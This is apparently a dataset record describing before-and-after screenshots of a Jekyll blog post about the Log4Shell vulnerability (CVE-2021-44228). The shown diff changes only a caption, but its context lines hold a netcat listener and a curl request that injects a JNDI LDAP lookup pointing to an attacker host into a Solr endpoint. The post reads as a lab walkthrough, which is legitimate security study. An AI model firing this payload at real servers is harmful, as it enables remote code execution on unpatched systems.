

Before and after one commit to hum4nG0D/hum4nG0D.github.io, a Jekyll site: the page built from _posts/2021-12-14-CVE-2021-44228-Log4j Exploit-Log4Shell.md, in a window 1280 px wide and 900 px high, scrolled down 1618 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes.

Commit message:
Update 2021-12-14-CVE-2021-44228-Log4j Exploit-Log4Shell.md

````diff
--- a/_posts/2021-12-14-CVE-2021-44228-Log4j Exploit-Log4Shell.md
+++ b/_posts/2021-12-14-CVE-2021-44228-Log4j Exploit-Log4Shell.md
@@ -41,7 +41,7 @@ Listening on port 9999 on attacker machine:
 nc -lvnp 9999
 ```
 
-Executing the payload on the vulnerable server:
+Executing the payload:
 
 ```
 curl 'http://10.10.99.121:8983/solr/admin/cores?foo=$\{jndi:ldap://10.8.108.138:1389/Exploit\}'
````
